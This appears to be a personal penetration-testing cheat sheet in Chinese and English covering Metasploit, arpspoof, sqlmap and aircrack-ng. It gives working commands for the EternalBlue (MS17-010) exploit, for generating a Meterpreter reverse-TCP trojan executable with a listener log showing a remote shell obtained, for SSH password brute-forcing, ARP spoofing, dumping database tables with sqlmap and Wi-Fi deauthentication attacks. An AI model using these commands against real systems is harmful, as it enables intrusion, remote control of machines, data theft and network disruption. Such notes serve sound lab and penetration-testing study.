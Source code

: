 # msfconsole

```bash
snap install metasploit-framework
# Download the package
```

```bash
msfconsole
# Enter the console
```

## ms17_010

search ms17_010 

\#永恒之蓝漏洞模板 

- use auxiliary/scanner/smb/smb_ms17_010 

show options 

- set rhosts 192.168.140.129 

\#扫描目标IP是否存在此漏洞 

- msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.26.197.13 LPORT=12345 -f exe > win2012.exe 

\#生成一个win2012.exe的木马文件，反向连接到kali主机 

- use exploit/multi/handler 

[*] Using configured payload generic/shell_reverse_tcp 

\#开启端口监听 

- set payload windows/meterpreter_reverse_tcp 

\#设置payload反弹 

show options 

\#设置参数 

- set LHOST 172.26.197.13 

LHOST => 172.26.197.13 

- set LPORT 12345 

LPORT => 12345 

\#设置反向连接IP（kali）和端口 

- run 

[*] Started reverse TCP handler on 172.26.197.13:12345 

[*] Meterpreter session 1 opened (172.26.197.13:12345 -> 172.26.192.1:2177) at 2023-12-11 23:23:41 +0800 

\#开始监听 

- shell 

Process 2016 created. 

Channel 2 created. 

Microsoft Windows [�汾 6.1.7601] 

��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ���� 

\#获取权限 

- use exploit/windows/smb/ms17_010_eternalblue 

show options 



## ssh_login

```bash
search ssh_login

use 

set RHOSTS target
set USER_FILE /path/to/user_dict
set PASS_FILE /path/to/pass_dict
# The file type should be txt
```

```bash
vim password.txt
```





# arpspoof

[ARP欺骗工具arpspoof的用法](https://blog.csdn.net/who_im_i/article/details/120234324)

```bash
apt install -y dsniff ssldump
```

设置是否为目标和主机转发流量，0为不转发
```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

arp欺骗，需要指定相关网卡。
```bash
arpspoof -i <eth0> -t <target> <host>
# -i 指定特定的网卡
# -t 目标IP
# host 网关IP
```



# sqlmap

扫描当前数据库

```bash
sqlmap -u "url" --cookie="cookie" --current-db
```

```bash
sqlmap -u "url" --cookie="cookie" -D database --tables
sqlmap -u "url" --cookie="cookie" -D database -T table --columns
sqlmap -u "url" --cookie="cookie" -D database -T table -C col1,col2 --dump
```



# aircrack-ng

查看无线网卡信息

```bash
airmon-ng
```
开启网卡监听模式

```bash
airmon-ng start wlan0
```
使用airodump-ng 扫描信号

```bash
airodump-ng wlan0mon
```
|符号|意义|
|------|------|
| BSSID | AP端的MAC地址 |
| PWR   | 信号强度，数字越小越好 |
| \#Data | 对应的路由器的在线数据吞吐量，数字越大，数据上传量越大 |
| CH | 对应路由器的所在频道 |
| ESSID | 对应路由器的名称 |

使用airodump-ng 监听指定目标频道

```bash
airodump-ng -c <ch> -w /path/to/file --bbsid <bbsid> wlan0mon
```

使用aireplay-ng 进行解除认证攻击模式

```bash
aireplay-ng -0 0 -a <AP address> -c <client address> wlan0mon
# 指定AP和客户端的地址，将其进行破解
```

